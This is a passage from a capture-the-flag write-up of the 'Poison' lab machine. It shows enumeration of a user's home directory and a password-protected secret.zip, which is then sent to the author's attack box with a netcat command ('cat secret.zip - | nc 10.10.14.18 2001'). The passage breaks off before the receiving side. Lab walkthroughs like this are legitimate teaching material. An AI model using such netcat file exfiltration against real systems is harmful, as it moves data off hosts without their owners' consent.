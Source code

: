 And that was the user flag.

From here, I found an interesting `secret.zip` file in the `/home/charix` directory:

```
$ find /home/charix -ls 2>/dev/null
1203844        8 drwxr-x---    2 charix                           charix                                512 Sep 23 21:58 /home/charix
1203856        8 -rw-r-----    1 charix                           charix                               1041 Mar 19  2018 /home/charix/.cshrc
1203846        8 -rw-r-----    1 charix                           charix                                849 Mar 19  2018 /home/charix/.shrc
1203847        8 -rw-r-----    1 charix                           charix                                379 Mar 19  2018 /home/charix/.mail_aliases
1203848        8 -rw-r-----    1 charix                           charix                                336 Mar 19  2018 /home/charix/.mailrc
1203849        8 -rw-r-----    1 charix                           charix                                163 Mar 19  2018 /home/charix/.login_conf
1203850        8 -rw-r-----    1 charix                           charix                                254 Mar 19  2018 /home/charix/.login
1203851        8 -rw-r-----    1 charix                           charix                                281 Mar 19  2018 /home/charix/.rhosts
1203852        8 -rw-r-----    1 charix                           charix                                802 Mar 19  2018 /home/charix/.profile
1203855        0 -rw-rw----    1 charix                           charix                                  0 Mar 19  2018 /home/charix/.history
1203853        8 -rw-r-----    1 root                             charix                                 33 Mar 19  2018 /home/charix/user.txt
1203842        8 -rw-r-----    1 root                             charix                                166 Mar 19  2018 /home/charix/secret.zip
1203854        8 -rw-------    1 charix                           charix                                 94 Sep 23 21:04 /home/charix/.lesshst
```

Attempting to unzip the `secret.zip` file resulted in a failure since it was password protected:

```
$ unzip secret.zip
Archive:  secret.zip
 extracting: secret |
unzip: Passphrase required for this entry
```

After doing some reasearch on the `unzip` tool in FreeBSD, there was no option to provide a password with it, so I transferred the file over to my Kali machine with `/bin/nc`.

On the Poison machine:

```
$ cat secret.zip - | nc 10.10.14.18 2001
$ sha1 secret.zip
SHA1 (secret.zip) = 7dc5857af34cddb9d6986dc721b269ffcc9b07be
```

On my kali machine:
